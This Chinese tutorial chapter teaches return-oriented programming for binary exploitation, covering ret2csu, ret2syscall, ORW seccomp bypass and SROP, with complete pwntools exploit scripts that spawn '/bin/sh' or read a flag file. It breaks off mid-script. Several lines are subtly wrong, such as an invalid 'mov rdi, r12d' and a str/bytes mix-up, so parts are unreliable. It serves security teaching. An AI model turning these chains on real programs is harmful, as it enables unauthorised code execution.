


## 16.2 ROP（Return-Oriented Programming）

### 16.2.1 为什么需要ROP

在NX（No-eXecute）/DEP（Data Execution Prevention）开启的现代系统中，栈和堆上的数据不可执行。这意味着直接注入shellcode的方式完全失效。ROP技术应运而生，它不注入新代码，而是复用程序中已有的代码片段来构造攻击链。

**技术演进路线：**

| 阶段 | 技术 | 前提条件 | 局限性 |
|------|------|----------|--------|
| 第一代 | Shellcode注入 | 栈可执行（NX关闭） | 现代系统默认开启NX |
| 第二代 | ret2libc | libc加载地址已知或可计算 | 只能调用单个函数 |
| 第三代 | ROP | 程序中存在可用gadgets | 需要足够的gadgets |
| 第四代 | SROP/BROP | 内核支持sigreturn / 可触发crash | 特定场景适用 |


### 16.2.2 ROP核心原理

ROP的核心思想：程序的`.text`段中存在大量以`ret`（`0xc3`）结尾的短小指令序列，这些序列被称为**gadgets**。通过在栈上精心排列这些gadgets的地址，利用`ret`指令的"跳转到栈顶地址并弹出"语义，让程序依次执行每个gadget，最终完成攻击者想要的任意操作。

**`ret`指令的语义：**

```nasm
ret    ; 等价于: pop rip (从栈顶弹出8字节到RIP寄存器)
```

每次`ret`执行时：
1. 从`RSP`指向的栈位置读取8字节（x64）或4字节（x86）
2. 将该值赋给`RIP`（程序计数器）
3. `RSP`向上移动8字节（x64）或4字节（x86）
4. 程序从新的`RIP`地址继续执行

**ROP链的执行流程：**



**栈布局详解：**

```text
低地址
┌──────────────────────┐
│  padding (offset)    │  ← 填充buffer + saved RBP
├──────────────────────┤
│  gadget1_addr        │  ← 覆盖返回地址，ret跳转到这里
├──────────────────────┤
│  gadget1的数据/pop值  │  ← gadget1 pop到寄存器中的值
├──────────────────────┤
│  gadget2_addr        │  ← gadget1的ret跳转到这里
├──────────────────────┤
│  gadget2的数据/pop值  │
├──────────────────────┤
│  gadget3_addr        │  ← gadget2的ret跳转到这里
├──────────────────────┤
│       ...            │
└──────────────────────┘
高地址
```

### 16.2.3 Gadgets的类型与用途

Gadgets按功能可分为以下几类：

#### 1. 寄存器赋值Gadgets

这是最常用的gadgets类型，用于向寄存器写入攻击者指定的值。

```nasm
; x64 System V ABI：参数依次通过 rdi, rsi, rdx, rcx, r8, r9 传递
pop rdi; ret       ; 字节码: 5f c3 — 控制第一个参数
pop rsi; ret       ; 字节码: 5e c3 — 控制第二个参数
pop rdx; ret       ; 字节码: 5a c3 — 控制第三个参数
pop rcx; ret       ; 字节码: 59 c3 — 控制第四个参数
pop r8; ret        ; 字节码: 41 58 c3
pop r9; ret        ; 字节码: 41 59 c3

; 通用寄存器
pop rax; ret       ; 字节码: 58 c3 — 用于系统调用号
pop rbx; ret       ; 字节码: 5b c3
pop rbp; ret       ; 字节码: 5d c3
```

**重要提示：** `pop rdx; ret`（`5a c3`）在glibc中非常罕见。这是因为rdx通常用于函数调用的隐藏参数（如`__libc_start_main`的fini参数）。实战中需要使用组合gadgets或ret2csu来控制rdx。

#### 2. 内存读写Gadgets

```nasm
; 写入：将寄存器值写入内存
mov [rdi], rsi; ret        ; 将rsi的值写入rdi指向的地址
mov [rdi], eax; ret        ; 将eax的值写入rdi指向的地址（4字节）
mov [rdi], rax; ret        ; 将rax的值写入rdi指向的地址（8字节）

; 读取：从内存读取到寄存器
mov rax, [rdi]; ret        ; 从rdi指向的地址读取8字节到rax
```

内存写入gadgets在以下场景中至关重要：
- 将`"/bin/sh"`字符串写入某个可写内存区域（当程序中没有该字符串时）
- 修改GOT表项以劫持函数调用
- 向特定地址写入数据以满足某些函数的前置条件

#### 3. 算术/逻辑运算Gadgets

```nasm
add rax, rdi; ret          ; rax += rdi
sub rax, rdi; ret          ; rax -= rdi
xor rax, rdi; ret          ; rax ^= rdi
inc rax; ret               ; rax += 1
dec rax; ret               ; rax -= 1
neg rax; ret               ; rax = -rax
shl rax, 3; ret            ; rax <<= 3
```

这些gadgets在没有直接的`pop rax; ret`时，可以通过组合其他值来间接构造目标值。

#### 4. 系统调用Gadgets

```nasm
; 直接syscall
syscall; ret               ; 字节码: 0f 05 c3
int 0x80; ret              ; 字节码: cd 80 c3（x86）

; 通过libc的syscall封装
; 某些libc版本中，__libc_csu_init或其他函数尾部包含syscall; ret
```

#### 5. 栈操作Gadgets

```nasm
add rsp, 0x28; ret         ; 跳过栈上40字节的padding
add rsp, 0x58; ret         ; 跳过栈上88字节的padding
leave; ret                 ; mov rsp, rbp; pop rbp — 用于栈迁移
xchg rsp, rax; ret         ; 栈指针交换（罕见但有用）
```

### 16.2.4 Gadget搜索工具与技巧

#### ROPgadget

最常用的gadget搜索工具，支持ELF和PE格式。

```bash
# 搜索所有gadgets
ROPgadget --binary ./vuln

# 搜索特定指令
ROPgadget --binary ./vuln --only "pop|ret"
ROPgadget --binary ./vuln --only "pop|pop|ret"

# 搜索特定字节序列
ROPgadget --binary ./vuln --opcode "5fc3"  # pop rdi; ret

# 搜索带depth的gadgets（默认10条指令）
ROPgadget --binary ./vuln --depth 20

# 同时搜索libc
ROPgadget --binary ./vuln --libc /lib/x86_64-linux-gnu/libc.so.6

# 输出JSON格式（便于脚本处理）
ROPgadget --binary ./vuln --json
```

#### ropper

交互式gadget搜索工具，支持正则表达式和语义搜索。

```bash
# 启动ropper
ropper -f ./vuln

# 在ropper交互界面中：
# 搜索包含pop rdi的gadgets
ropper> search pop rdi

# 搜索特定字节
ropper> search -b 5fc3

# 搜索所有以ret结尾的gadgets
ropper> search ret

# 加载libc一起搜索
ropper> file /lib/x86_64-linux-gnu/libc.so.6
ropper> search pop rsi
```

#### rp++

用C++编写的高性能gadget搜索工具，速度极快。

```bash
# 基本搜索
rp-lin -f ./vuln -r 5  # -r 5 表示最大5条指令的gadgets

# 搜索libc
rp-lin -f /lib/x86_64-linux-gnu/libc.so.6 -r 10

# 只搜索ret结尾的gadgets
rp-lin -f ./vuln --unique
```

#### pwntools中的ROP类

pwntools提供了程序化的ROP链构建能力：

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 自动搜索gadgets并构建ROP对象
rop = ROP(elf)

# 自动找到pop rdi; ret并设置rdi
rop.call('puts', [elf.got['puts']])  # 调用puts(puts@GOT)泄露地址
rop.call('main')                      # 返回main再次利用

# 查看生成的ROP链
print(rop.dump())

# 获取payload
payload = b'A' * offset + rop.chain()
```

**工具对比：**

| 工具 | 速度 | 精度 | 交互性 | Python集成 | 推荐场景 |
|------|------|------|--------|------------|----------|
| ROPgadget | 中等 | 高 | 命令行 | 无 | 快速搜索特定gadgets |
| ropper | 较慢 | 高 | 交互式 | 无 | 探索性搜索、正则匹配 |
| rp++ | 最快 | 高 | 命令行 | 无 | 大型二进制/libc搜索 |
| pwntools ROP | 中等 | 高 | Python API | 原生 | 自动化脚本构建 |

### 16.2.5 ret2csu（通用Gadget利用）

ret2csu是PWN中最重要的通用技术之一。`__libc_csu_init`是glibc提供的初始化函数，几乎存在于每个使用glibc的C程序中。该函数的尾部包含一组极其有用的gadgets，可以控制`rdi`、`rsi`、`rdx`三个寄存器。

#### 原理分析

`__libc_csu_init`的尾部代码（AT&T语法，转换为Intel语法如下）：

```nasm
; gadget2: __libc_csu_init尾部的call指令区域
mov     rdx, r14          ; 第三个参数 ← r14
mov     rsi, r13          ; 第二个参数 ← r13
mov     edi, r12d         ; 第一个参数 ← r12d（注意：只取低32位）
lea     rbx, [r15+rbx*8]  ; 计算函数指针地址（实际是 mov rbx, [r15+rbx*8] 的变体）
mov     rdi, r12d         ; 某些版本的写法
call    qword ptr [r15+rbx*8]  ; 间接调用函数
add     rbx, 1
cmp     rbp, rbx
jne     .loop             ; 如果rbx != rbp，跳回继续循环
; rbx == rbp 时继续向下
add     rsp, 8            ; 跳过栈上一个qword
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15
ret

; gadget1: 紧接在gadget2之前（或在函数更早的位置）
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15
ret
```

#### 使用步骤

**第一步：** 找到gadget1和gadget2的地址。通常gadget1是`pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret`，gadget2紧接其后的`mov rdx, r14; mov rsi, r13; mov edi, r12d; call [r15+rbx*8]; ...`区域。

```bash
# 查找gadget1
ROPgadget --binary ./vuln --only "pop|ret" | grep "rbx"
# 输出类似: 0x000000000040059a : pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

# gadget2通常在gadget1地址 + 若干字节处
```

**第二步：** 构造payload。

```python
from pwn import *

context.arch = 'amd64'

gadget1 = 0x40059a  # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
gadget2 = 0x400580  # mov rdx, r14; mov rsi, r13; mov edi, r12d; call [r15+rbx*8]

target_addr = 0x400520  # 要调用的目标函数地址（如system@plt）
bin_sh_addr = 0x601050   # "/bin/sh"字符串地址

payload = b'A' * offset

# 第一次执行gadget1：设置寄存器
payload += p64(gadget1)
payload += p64(0)             # rbx = 0
payload += p64(1)             # rbp = 1（关键：让cmp rbp, rbx在add rbx, 1后相等）
payload += p64(bin_sh_addr)   # r12 → edi = bin_sh_addr（第一个参数）
payload += p64(0)             # r13 → rsi = 0（第二个参数）
payload += p64(0)             # r14 → rdx = 0（第三个参数）
payload += p64(target_addr)   # r15 → call [r15+rbx*8] = call [target_addr]

# 执行gadget2后，call [r15+rbx*8]会调用target_addr处的函数
# 调用返回后，add rbx, 1 → rbx = 1
# cmp rbp, rbx → 1 == 1，不跳转，继续执行到add rsp, 8
payload += p64(0)             # add rsp, 8 跳过的padding

# 然后是6个pop + ret，可以用于第二次利用或直接返回
payload += p64(0) * 7         # rbx, rbp, r12, r13, r14, r15, ret地址
```

#### ret2csu的变体

不同glibc版本中，gadget2的寄存器映射可能不同：

```nasm
; 变体A（较新版本）：使用r12d作为edi的源（32位截断）
mov     edi, r12d
mov     rsi, r13
mov     rdx, r14
call    [r15+rbx*8]

; 变体B（某些版本）：使用r13d作为edi的源
mov     edi, r13d
mov     rsi, r14
mov     rdx, r15
call    [r12+rbx*8]
```

**关键注意事项：**
- `mov edi, r12d`只取r12的低32位，高位被清零。如果目标地址在高地址空间（如libc地址），需要使用其他方法。
- `call [r15+rbx*8]`是间接调用，r15+rbx*8必须指向一个存放了目标函数地址的位置。如果直接把函数地址放在r15中，需要确保rbx=0且该地址处存放了正确的值。
- 常见的解决方案：将r15设为GOT表中某函数的地址（GOT表存放的就是真实地址），rbx设为0。

```python
# 更稳健的ret2csu：通过GOT表间接调用
payload += p64(gadget1)
payload += p64(0)             # rbx = 0
payload += p64(1)             # rbp = 1
payload += p64(bin_sh_addr)   # r12 → edi = bin_sh_addr
payload += p64(0)             # r13 → rsi = 0
payload += p64(0)             # r14 → rdx = 0
payload += p64(elf.got['system'])  # r15 → call [r15+0*8] = call [system@GOT]
```

### 16.2.6 ret2syscall（系统调用利用）

当程序中没有`system`函数、libc中也没有`"/bin/sh"`字符串时，可以直接构造系统调用来执行`execve("/bin/sh", NULL, NULL)`。

#### Linux x64系统调用约定

```nasm
; x64系统调用：通过syscall指令触发
; rax = 系统调用号
; rdi = 第一个参数
; rsi = 第二个参数
; rdx = 第三个参数
; r10 = 第四个参数（注意：不是rcx，rcx被syscall指令占用）
; r8  = 第五个参数
; r9  = 第六个参数
```

**常用系统调用号：**

| 系统调用 | rax值 | 功能 | 参数 |
|----------|-------|------|------|
| `read` | 0 | 从文件描述符读取 | fd, buf, count |
| `write` | 1 | 写入文件描述符 | fd, buf, count |
| `open` | 2 | 打开文件 | filename, flags, mode |
| `execve` | 59 | 执行程序 | filename, argv, envp |
| `rt_sigreturn` | 15 | 信号返回（SROP用） | — |
| `mmap` | 9 | 内存映射 | addr, length, prot, flags, fd, offset |
| `mprotect` | 10 | 修改内存权限 | addr, length, prot |

**x86系统调用约定（对比）：**

```nasm
; x86：通过int 0x80触发
; eax = 系统调用号
; ebx = 第一个参数
; ecx = 第二个参数
; edx = 第三个参数
; esi = 第四个参数
; edi = 第五个参数
; ebp = 第六个参数
```

#### 完整ret2syscall示例

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

elf = ELF('./vuln')
p = process('./vuln')

# 第一步：在二进制中搜索所需的gadgets
rop = ROP(elf)

# 搜索gadgets
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]  # 可能找不到！
syscall_ret = rop.find_gadget(['syscall', 'ret'])[0]

# 如果找不到pop rdx; ret，尝试在libc中搜索
if pop_rdx is None:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    rop_libc = ROP(libc)
    # 需要先泄露libc地址...

# 第二步：找到或构造"/bin/sh"字符串
# 方法1：在二进制中搜索
bin_sh = next(elf.search(b'/bin/sh\x00'))

# 方法2：在.bss段写入（需要内存写入gadget）
# 方法3：在libc中搜索（需要泄露libc地址）

# 第三步：构造execve系统调用
# execve("/bin/sh", NULL, NULL)
# rax = 59, rdi = bin_sh_addr, rsi = 0, rdx = 0

offset = 72  # 根据实际溢出偏移确定
payload = b'A' * offset
payload += p64(pop_rax) + p64(59)           # rax = 59 (execve)
payload += p64(pop_rdi) + p64(bin_sh)       # rdi = "/bin/sh"地址
payload += p64(pop_rsi) + p64(0)            # rsi = NULL
payload += p64(pop_rdx) + p64(0)            # rdx = NULL
payload += p64(syscall_ret)                 # 触发系统调用

p.sendline(payload)
p.interactive()
```

#### 找不到pop rdx; ret怎么办？

`pop rdx; ret`（`5a c3`）在很多二进制中确实不存在。解决方案：

```python
# 方案1：使用ret2csu控制rdx（见16.2.5节）

# 方案2：在libc中搜索（需要泄露libc地址）
libc_pop_rdx = libc_base + 0x????

# 方案3：使用pop rdx; pop r12; ret（多pop一个值，栈上多放一个padding）
# 字节码: 5a 41 5c c3
pop_rdx_pop_r12 = rop.find_gadget(['pop rdx', 'pop r12', 'ret'])[0]
if pop_rdx_pop_r12:
    payload += p64(pop_rdx_pop_r12) + p64(0) + p64(0)  # rdx=0, r12=0(丢弃)

# 方案4：利用xor rdx, rdx; ret（将rdx清零）
xor_rdx = rop.find_gadget(['xor rdx, rdx', 'ret'])[0]

# 方案5：使用SROP一次性设置所有寄存器（见16.2.7节）
```

#### ORW（Open-Read-Write）绕过沙箱

某些题目禁用了`execve`系统调用（seccomp沙箱），此时需要使用ORW组合来读取flag文件：

```python
from pwn import *

context.arch = 'amd64'

# open("flag", O_RDONLY)  —  syscall 2
# read(fd, buf, size)     —  syscall 0
# write(1, buf, size)     —  syscall 1

# 第一步：将"flag"字符串写入某地址
flag_str = b'flag\x00'
# 假设bss_addr是一个可写地址
bss_addr = 0x601050

# 使用mov [rdi], rsi; ret 写入字符串
pop_rdi_ret = 0x4005a3
pop_rsi_ret = 0x4005a1
mov_rdi_rsi_ret = 0x400580  # mov [rdi], rsi; ret
pop_rax_ret = 0x40059b
syscall_ret = 0x4005a0

payload = b'A' * offset

# 写入"flag"字符串
payload += p64(pop_rdi_ret) + p64(bss_addr)
payload += p64(pop_rsi_ret) + p64(u64(flag_str.ljust(8, b'\x00')))
payload += p64(mov_rdi_rsi_ret)

# open("flag", 0)
payload += p64(pop_rax_ret) + p64(2)        # sys_open
payload += p64(pop_rdi_ret) + p64(bss_addr)  # filename
payload += p64(pop_rsi_ret) + p64(0)         # flags = O_RDONLY
payload += p64(syscall_ret)

# read(3, bss_addr+0x100, 0x100)  — fd通常是3
payload += p64(pop_rax_ret) + p64(0)         # sys_read
payload += p64(pop_rdi_ret) + p64(3)         # fd = 3
payload += p64(pop_rsi_ret) + p64(bss_addr + 0x100)  # buf
payload += p64(pop_rdx_ret) + p64(0x100)     # count
payload += p64(syscall_ret)

# write(1, bss_addr+0x100, 0x100)
payload += p64(pop_rax_ret) + p64(1)         # sys_write
payload += p64(pop_rdi_ret) + p64(1)         # fd = stdout
payload += p64(pop_rsi_ret) + p64(bss_addr + 0x100)  # buf
payload += p64(pop_rdx_ret) + p64(0x100)     # count
payload += p64(syscall_ret)
```

### 16.2.7 SROP（Sigreturn-Oriented Programming）

SROP是一种极其强大的ROP变体，利用Linux内核的`sigreturn`机制一次性设置所有寄存器，只需要极少的gadgets。

#### 信号处理机制

当进程收到信号时，内核执行以下步骤：

1. **信号到达：** 内核中断进程当前执行流
2. **保存上下文：** 将所有寄存器的值保存到栈上，形成`sigcontext`结构
3. **跳转处理函数：** 执行用户注册的信号处理函数
4. **执行sigreturn：** 处理函数返回时调用`sigreturn`系统调用
5. **恢复上下文：** 内核从栈上读取`sigcontext`结构，恢复所有寄存器
6. **继续执行：** 进程从被中断的位置继续执行



#### SROP攻击原理

攻击者伪造一个`sigcontext`结构放在栈上，然后触发`sigreturn`系统调用。内核会从栈上读取伪造的`sigcontext`并恢复所有寄存器——这意味着攻击者可以一次性控制**所有**寄存器。

**只需要两个gadgets：**
1. `syscall; ret`（或`syscall; leave; ret`等包含syscall的gadget）
2. 能将`rax`设置为15（`rt_sigreturn`的系统调用号）的gadget

但实际上，即使是第2个gadget也可以省略——因为信号处理函数返回时，`rax`通常已经被设置为15（或者可以通过其他方式触发）。

#### SigreturnFrame结构

Linux x64的`sigcontext`结构布局（`ucontext_t` → `uc_mcontext` → `gregs[]`）：

```text
偏移量    寄存器        说明
+0x00    r8            通用寄存器
+0x08    r9            通用寄存器
+0x10    r10           通用寄存器
+0x18    r11           通用寄存器
+0x20    r12           通用寄存器
+0x28    r13           通用寄存器
+0x30    r14           通用寄存器
+0x38    r15           通用寄存器
+0x40    rdi           通用寄存器
+0x48    rsi           通用寄存器
+0x50    rbp           通用寄存器
+0x58    rbx           通用寄存器
+0x60    rdx           通用寄存器
+0x68    rax           通用寄存器
+0x70    rcx           通用寄存器
+0x78    rsp           栈指针
+0x80    rip           指令指针
+0x88    eflags        标志寄存器
+0x90    cs/gs/fs/...  段寄存器
+0x98    err
+0xa0    trapno
+0xa8    oldmask
+0xb0    cr2
+0xb8    fpstate       浮点状态指针
+0xc0    __reserved    保留区域
...      (fpregs)      浮点寄存器
```

#### 使用pwntools的SigreturnFrame

pwntools封装了`SigreturnFrame`，无需手动计算结构布局：

```python
from pwn import *

context.arch = 'amd64'

# 触发sigreturn的gadget
# 通常是某个信号处理函数中的syscall; ret
# 或者程序中恰好有 mov rax, 15; syscall; ret
sigreturn_gadget = 0x4005a0   # syscall; ret

# sigreturn后的目标地址
syscall_addr = 0x4005a0       # 再次执行syscall（用于execve）
bin_sh_addr = 0x601050        # "/bin/sh"字符串地址

# 构造伪造的SigreturnFrame
frame = SigreturnFrame()
frame.rax = 59                # execve的系统调用号
frame.rdi = bin_sh_addr       # 第一个参数："/bin/sh"地址
frame.rsi = 0                 # 第二个参数：NULL
frame.rdx = 0                 # 第三个参数：NULL
frame.rip = syscall_addr      # sigreturn恢复后从这里执行
frame.rsp = 0xdeadbeef        # 新的栈指针（可以是任意可读地址）
frame.rbp = 0                 # 可选

# 构造payload
payload = b'A' * offset
payload += p64(sigreturn_gadget)  # 第一次syscall：触发sigreturn
payload += bytes(frame)           # sigcontext结构，内核读取并恢复寄存器

p.sendline(payload)
p.interactive()
```

#### 如何触发sigreturn

关键问题：如何让`rax = 15`然后执行`syscall`？

**方法1：直接找到合适的gadget**
```bash
# 搜索mov rax, 0xf; syscall 或类似序列
ROPgadget --binary ./vuln --only "mov|syscall"
```

**方法2：通过read()写入栈上**
```python
# 如果程序有read()调用，可以分两步：
# 第一步：通过read()将sigreturn frame写入栈
# 第二步：触发sigreturn

# 第一次溢出：调用read(0, stack_addr, 0x400)读取SROP payload
payload1 = b'A' * offset
payload1 += p64(pop_rdi_ret) + p64(0)         # fd = stdin
payload1 += p64(pop_rsi_ret) + p64(rsp_addr)  # buf = 栈地址
payload1 += p64(pop_rdx_ret) + p64(0x400)     # count
payload1 += p64(read_plt)                      # 调用read
payload1 += p64(rsp_addr)                      # read返回后跳转到新栈

# 第二步：发送SROP payload
srop_payload = p64(sigreturn_gadget)           # 触发sigreturn
srop_payload += bytes(frame)                   # sigcontext
p.send(srop_payload)
```

**方法3：利用信号处理函数本身**

如果程序注册了信号处理函数（如`signal(SIGSEGV, handler)`），当发生段错误时会自动进入信号处理流程。在处理函数中注入`syscall; ret`即可触发sigreturn。

#### SROP vs 传统ROP对比

| 特性 | 传统ROP | SROP |
|------|---------|------|
| 需要的gadgets数量 | 多（每个寄存器至少一个pop gadget） | 少（1-2个即可） |
| 寄存器控制 | 逐个设置 | 一次性设置所有 |
| payload大小 | 取决于gadgets数量 | 固定：约248字节（sigcontext） |
| 适用场景 | 通用 | 需要控制大量寄存器时 |
| 复杂度 | 中等 | 低（pwntools封装好） |
| 兼容性 | 通用 | 需要内核支持sigreturn |

### 16.2.8 高级ROP技术

#### 1. 盲ROP（Blind ROP, BROP）

当无法获取目标二进制文件时（如远程服务器上的程序），BROP可以通过逐字节探测来远程构造ROP链。

**核心原理：**
- 利用`write()`系统调用泄露内存
- 通过crash/success信号判断gadget是否存在
- 逐字节爆破canary、返回地址、gadgets

**BROP需要的前提条件：**
- 能够触发栈溢出
- 程序在崩溃后会自动重启（fork server模式）
- 能够区分"正常返回"和"崩溃"

**BROP攻击步骤：**
1. 爆破stack canary（逐字节，256次尝试/字节）
2. 找到`stop gadget`（让程序正常返回而不崩溃的gadget）
3. 找到`BROP gadget`（`__libc_csu_init`中的通用gadget）
4. 找到`puts`或`write`的PLT条目
5. 泄露二进制文件
6. 正常构造ROP链

#### 2. JOP（Jump-Oriented Programming）

JOP不依赖`ret`指令，而是使用`jmp`指令跳转。这可以绕过某些针对`ret`指令的防护（如shadow stack中只保护`ret`的场景）。

```nasm
; JOP gadget示例
; jmp [reg] 或 jmp [reg + offset]
; 配合一个"dispatcher"寄存器来控制跳转目标

; dispatcher gadget:
jmp qword ptr [rbx]    ; 跳转到rbx指向的地址
; 或
jmp qword ptr [rax]    ; 跳转到rax指向的地址
```

#### 3. COP（Call-Oriented Programming）

COP使用`call`指令代替`ret`指令。攻击者通过控制`call`的目标来执行gadgets链。

#### 4. 部分覆盖（Partial Overwrite）

当ASLR开启但已知偏移时，只覆盖返回地址的低字节可以大幅减少搜索空间：

```python
# x64下，地址的低12位不受ASLR影响（页对齐）
# 只覆盖低2字节，将跳转到同一libc页面内的不同位置

# 例：system和execve在同一libc中
# 只需要覆盖低2字节来调整目标
payload = b'A' * offset
payload += p16(target_low_bytes)  # 只覆盖2字节

# 概率：1/16（因为ASLR随机化高位，低12位固定）
# 但对于同一个libc页面内的函数，这是100%确定的
```

### 16.2.9 防护机制与绕过

#### 1. Stack Canary

**防护原理：** 在返回地址之前插入一个随机值（canary），函数返回前检查是否被修改。

**绕过方法：**
- 泄露canary值（如通过格式化字符串漏洞）
- 爆破canary（fork server模式下canary不变）
- 覆盖canary为正确值继续执行

#### 2. ASLR（Address Space Layout Randomization）

**防护原理：** 每次程序运行时随机化栈、堆、libc的加载地址。

**绕过方法：**
- 信息泄露（通过格式化字符串、未初始化变量、侧信道等）
- ret2plt（不需要知道libc基地址）
- 部分覆盖
- ret2csu（使用程序自身的gadgets，不受ASLR影响）

#### 3. CFI（Control-Flow Integrity）

**防护原理：** 验证间接跳转/调用的目标是否合法。

**绕过方法：**
- 利用CFI策略的弱点（某些实现只检查目标是否在合法代码区域）
- 使用合法的间接调用目标（如GOT表中的函数指针）
- 硬件辅助CFI（如Intel CET）更难绕过

### 16.2.10 常见误区与陷阱

**误区1：混淆x86和x64的参数传递方式**

```text
x86：参数全部通过栈传递（从右到左压栈）
x64：前6个整数参数通过寄存器传递（rdi, rsi, rdx, rcx, r8, r9）
```

在x64下构造ROP链时，必须先用`pop`gadget设置寄存器，而不是在栈上直接放参数。

**误区2：忽略栈对齐要求**

```python
# 在调用某些libc函数（特别是使用SSE指令的函数）时，
# 栈必须16字节对齐。如果RSP不是16的倍数，程序会crash。

# 解决方案：在ROP链中多加一个ret gadget来调整对齐
ret_gadget = 0x400500  # 单独的ret指令地址
payload = b'A' * offset
payload += p64(ret_gadget)    # 多一次ret，RSP += 8，调整对齐
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(system_addr)
```

**误区3：忘记字符串末尾的null byte**

```python
# "/bin/sh"在内存中是 b'/bin/sh\x00'（7个字符 + 1个null）
# 如果通过mov [rdi], rsi写入，确保包含null终止符

# 正确做法：
bin_sh = u64(b'/bin/sh\x00')  # 包含null
# 或者
bin_sh = u64('/bin/sh\x00'.ljust(8, b'\x00'))
```

**误区4：ret2csu中rbx和rbp的值设置错误**

```python
# 错误：rbx和rbp都设为0
# add rbx, 1 后 rbx = 1, cmp rbp, rbx → 1 != 0 → 跳转回gadget2 → 死循环

# 正确：rbp = rbx + 1
payload += p64(0)  # rbx = 0
payload += p64(1)  # rbp = 1（= rbx + 1）
```

**误区5：SROP中rsp设置为0**

```python
# 如果frame.rsp = 0，sigreturn后RSP指向地址0
# 后续任何push/pop/call/ret操作都会crash

# 正确做法：设置为一个可读写的地址
frame.rsp = bss_addr  # 或任何有效的可写地址
```

**误区6：混淆PLT和GOT**

```text
PLT（Procedure Linkage Table）：存放跳转桩代码，地址固定（不受ASLR影响）
GOT（Global Offset Table）：存放函数的真实地址，受ASLR影响

调用函数时：call func@plt → jmp *func@got → 实际函数地址
```

- 调用已链接的函数：使用`func@plt`（地址固定）
- 泄露函数真实地址：读取`func@got`的内容
- 劫持函数调用：修改`func@got`的内容

### 16.2.11 实战ROP链构建流程

以下是一个完整的ROP链构建流程，从分析到exploit：

```python
from pwn import *

# ===== 第一步：环境准备 =====
context.arch = 'amd64'
context.log_level = 'info'    # 调试时改为 'debug'
context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./vuln')
p = process('./vuln')
# p = remote('challenge.example.com', 1337)

# ===== 第二步：确定溢出偏移 =====
# 方法A：使用cyclic
p.sendline(cyclic(200))       # 发送cyclic pattern
p.wait()
